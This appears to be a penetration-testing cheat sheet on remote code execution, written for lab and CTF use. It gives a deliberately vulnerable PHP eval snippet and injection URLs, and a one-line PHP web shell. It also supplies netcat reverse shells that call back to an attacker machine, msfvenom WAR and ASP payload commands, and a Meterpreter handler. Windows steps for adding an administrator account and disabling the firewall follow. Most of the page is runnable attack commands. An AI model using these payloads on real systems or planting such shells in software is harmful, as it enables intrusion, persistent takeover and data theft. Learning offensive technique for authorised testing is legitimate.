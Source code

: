 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to an attacker executing commands on a system from a remote machine. Often this means exploiting a web application/server to run commands for the underlying operating system.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells

For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners

Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port.

### Netcat listener

Using ports 80 or 443 will help you get around egress filtering:

```text
nc -lvp 443
```

### Meterpreter listener

You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:

```text
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell

Assuming you are able to put a file on the web server or edit an existing one \(e.g. CMS template\) this is the simplest type of shell:

```text
<?php echo shell_exec($_GET['cmd']); ?>
```

You can use it for system commands:

```text
http://[host]/wordpress/index.php?cmd=id
```

You can also use it to create a reverse shell:

```text
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```

## PHP shell

This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:

```text
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```

## Perl shell

I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay.

As with the PHP shell, change the following variables:

```text
my $ip = '127.0.0.1';
my $port = 1234;
```

## WAR shell

If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```

You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL \(e.g. `http://[host]/shell/`\)

## Upgrading shell

You will use this line pretty often to fix your shells:

```text
python -c 'import pty; pty.spawn("/bin/bash");'
```

To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:

```text
stty raw -echo
fg
```

Then type `reset` and hit `Enter`for a fully interactive reverse shell.

If the shell dimensions are wrong, background the reverse shell again with `Ctrl + Z`, go to your local machine and run:

```text
stty size
```

This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:

```text
stty -rows 48 -columns 120
```

## Windows

Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=443 -f asp > shell.asp
```

You can also attempt to download `nc.exe`, then run:

```text
nc.exe -e cmd.exe [attack machine] [port]
```

If RDP is enabled \(port 3389\), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on windows:

```text
net user $username $password /add
```

Add a user to the “Remote Desktop Users” group:

```text
net localgroup "Remote Desktop Users" $username /add
```

Make a user an administrator:

```text
net localgroup administrators $username /add
```

Disable Windows firewall on newer versions:

```text
NetSh Advfirewall set allprofiles state off
```

Disable windows firewall on older windows:

```text
netsh firewall set opmode disable
```

## Further reading

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)

